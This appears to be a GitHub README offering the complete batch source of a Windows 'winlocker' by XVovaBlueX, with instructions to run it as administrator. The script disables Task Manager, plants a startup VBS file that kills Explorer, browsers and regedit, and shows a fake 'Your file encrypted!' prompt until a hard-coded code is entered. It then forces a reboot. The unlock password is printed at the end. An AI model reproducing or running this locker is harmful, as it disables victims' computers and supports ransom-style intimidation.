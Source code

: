 # Winlocker-0.1-By-XVovaBlueX
Winlocker-0.1-By-XVovaBlueX
For use start programm:
Start programm as administrator!

Source code (Batch file) :
@echo off
REG ADD "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /f /v "DisableTaskMgr" /t REG_DWORD /d 1
echo Set x = CreateObject("Wscript.Shell") >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo. >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo x.run"taskkill /f /im explorer.exe" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo x.run"taskkill /f /im taskmgr.exe" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo x.run"taskkill /f /im calc.exe" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo x.run"taskkill /f /im mspaint.exe" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo x.run"taskkill /f /im browser.exe" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo x.run"taskkill /f /im yandex.exe" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo x.run"taskkill /f /im iexplorer.exe" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo x.run"taskkill /f /im chrome.exe" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo x.run"taskkill /f /im notepad.exe" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo x.run"taskkill /f /im regedit.exe" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo. >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo Do >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo key = InputBox ("Your file encrypted! Please enter code:") >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo Loop Until key = "sub-to-my" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo MsgBox"Decrypted!" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
echo x.run"decrypt.cmd" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"

echo Please open encrypt (.cmd) as administrator >> "%HomePath%\Desktop\ReadMe.txt"

echo @echo off >> "%HomePath%\Desktop\decrypt.cmd"
echo REG DELETE "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /f /v "DisableTaskMgr" >> "%HomePath%\Desktop\decrypt.cmd"
echo del "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\ecrypt_window.vbs" >> "%HomePath%\Desktop\decrypt.cmd"
shutdown /r /t 1

The end

For change password found this:
echo Loop Until key = "sub-to-my" >> "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\encrypt_window.vbs"
sub-to-my - This password
